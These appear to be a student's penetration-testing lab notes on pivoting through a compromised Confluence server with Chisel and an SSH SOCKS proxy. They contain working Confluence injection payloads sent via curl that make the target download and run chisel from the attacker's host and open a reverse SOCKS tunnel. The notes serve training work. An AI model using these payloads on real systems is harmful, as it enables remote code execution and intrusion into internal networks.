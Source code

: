 	- Chisel is trying to use versions 2.32 and 2.34 of **glibc** which the CONFLUENCE01 server does not have.
	- Check version of chisel
		- ```chisel -h```
	- Download older version of chisel
		- ```wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz```
			- or ```https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_386.gz```
		- [compile chisel in different OS or ARCH]
			- cwd = /opt/chisel
				- Windows
					- `GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" .`
						- Note: the `-ldflags="-s -w"` simply makes the binary smaller — The `-w` turns off DWARF and the `-s` turns off Go symbol table.
				- Linux
					- `go build -ldflags="-s -w" .`
					- 
	- Unpack
		- ```gunzip chisel_1.8.1_linux_amd64.gz```
	- Copy to Apache
		- ```sudo cp ./chisel /var/www/html```
	- Run the same Confluence injection payload to download chisel from out Kali to tgt
		- ```curl http://192.168.238.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.178/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/```
	- Run Chisel client again on CONFLUENCE01 using the injection
		- ```curl http://192.168.238.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.178:8080%20R:socks%27%29.start%28%29%22%29%7D/```
	- Check tcpdump
	- Check Chisel server log
		- ```chisel server --port 8080 --reverse```
	- Check SOCKS proxy
		- ```ss -ntplu```
	- Connect to the SSH server on PGDATABSE01
	- SSH doesn't offer a generic SOCKS proxy command-line option. Instead, it offers the *ProxyCommand*
	- *ProxyCommand* (SSH config option)
		- accepts a shell command that is used to open a proxy-enabled channel
		- can write to a config file  ->
		- or pass it as a CLI arg with **-o**
		-  [The version of Netcat that ships with Kali cant connect to a SOCKS ot HTTP proxy]
		- *Ncat*
			- Netcat alternative written by the maintainers of Nmap.
		- Install *Ncat*
			- ```sudo apt install ncat```
	- Pass *Ncat* command to **ProxyCommand**
		- ```ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.195.215```
			- **%h** = host
			- **%p** = port
				- (SSH fills in before runtime)
- [TO SOLVE THIS EXAMPLE]
	- [I had to uninstall chisel --> install the 32 bit Linux version of chisel ---> upload 32 bit version to the tgt machine ---> then it worked]
